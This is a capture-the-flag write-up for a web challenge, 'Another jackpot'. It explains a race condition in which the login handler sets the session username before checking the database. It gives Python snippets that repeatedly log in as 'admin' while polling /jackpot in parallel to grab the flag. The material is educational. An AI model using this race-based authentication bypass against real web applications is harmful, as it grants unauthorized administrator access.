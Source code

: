 # Challenge `Another jackpot` Writeup

- Vulnerability: 
  - Time-of-check Time-of-use / Race condition
- Where:
  - `/login` and `/jackpot` endpoint
- Impact:
  - allows non-admin user access to admin-only endpoint

## Analyzing the server

This challenge consists in accessing the jackpot page as the admin revealing the flag.
The server allows for users to register and then login.
By sending a request to `/register` endpoint, the server redirects
to the login page and by sending a request to `/login` endpoint, the server redirects to the jackpot page.
Clicking this button will reveal a text `No luck... Maybe next time!`.  
By looking at the source code of the server, it's possible to see that the jackpot page only reveals the flag when the `current_session.username == 'admin'`.
```python
if current_session.username == 'admin':
        msg = FLAG
```
It's also revealed that momentarialy, during the login process, this variable `current_session.username` is set to the field `username` of the request form.
```python
current_session = get_current_session()
current_session.username = username
db.session.commit()
```

## Exploit

Since, the variable `current_session.username` is set without any confirmation from the database (only being reseted to `None` when the it confirms that the user is not registered), it's possible to set this variable to `admin` by sending a request to `/login` endpoint with the field `username` equal to `admin` and some non-empty random `password`. 
```python
params = {
    'username': 'admin', 
    'password': '1234'
}

def try_login():
    while True:
        session.post(URL+"/login", data=params)
```
Using the `Process` entity from the multiprocessing library, send a request to `/jackpot` endpoint parallelly and hope that the `current_session.username` is still `admin` granting access to the flag `SSof{What_admin?}`.
```python
while True:
    r = session.get(URL+"/jackpot")
    match = re.search("SSof{.*}", r.text)
    if match:
        print(match.group(0))
        break
```

## Implementation

These code snippets and full implementation can be found [here](another_jackpot.py).

